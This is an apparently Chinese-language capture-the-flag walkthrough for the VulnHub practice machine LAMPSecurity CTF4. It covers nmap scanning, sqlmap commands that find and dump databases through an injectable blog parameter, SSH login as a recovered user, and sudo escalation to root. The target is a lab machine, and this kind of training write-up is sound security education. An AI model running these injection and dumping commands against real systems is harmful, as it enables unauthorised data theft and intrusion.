# LAMPSECURITY: CTF4

> 靶机文档：[LAMPSECURITY: CTF4](https://www.vulnhub.com/entry/lampsecurity-ctf4,83/)
>
> 下载地址：[**Download (Mirror)**](https://download.vulnhub.com/lampsecurity/ctf4.zip)
>

### nmap扫描

详细扫描

```bash
sudo nmap -sT -sV -O -p22,25,80,631 10.9.75.12 -oA ./sT 
```




### SQL注入

访问80端口

 

当访问`Blog`的时候



地址 变成了`http://10.9.75.12/index.html?page=blog&title=Blog&id=2`

http://10.9.75.12/index.html?page=blog&title=Blog&id=2'



发现SQL报错

### sqlmap枚举

使用`sqlmap`跑

```bash
python3 sqlmap.py -u "http://10.9.75.12/index.html?page=blog&title=Blog&id=2"
```



存在注入点

枚举所有数据库

```bash
python3 sqlmap.py -u "http://10.9.75.12/index.html?page=blog&title=Blog&id=2" --dbs --batch
```



枚举当前数据库

```bash
python3 sqlmap.py -u "http://10.9.75.12/index.html?page=blog&title=Blog&id=2" --current-db --batch
```



```bash
python3 sqlmap.py -u "http://10.9.75.12/index.html?page=blog&title=Blog&id=2" --dbs --dump --batch
```



前期扫描扫出来`22`端口

尝试SSH连接

```bash
ssh dstevens@10.9.75.12
```



```bash
ssh  -oKexAlgorithms=diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1  dstevens@10.9.75.12
```



```bash
ssh  -oHostKeyAlgorithms=ssh-rsa,ssh-dss  -oKexAlgorithms=diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1  dstevens@10.9.75.12
```



查看能以`root`运行的权限



发现有所有的权限

### 提权

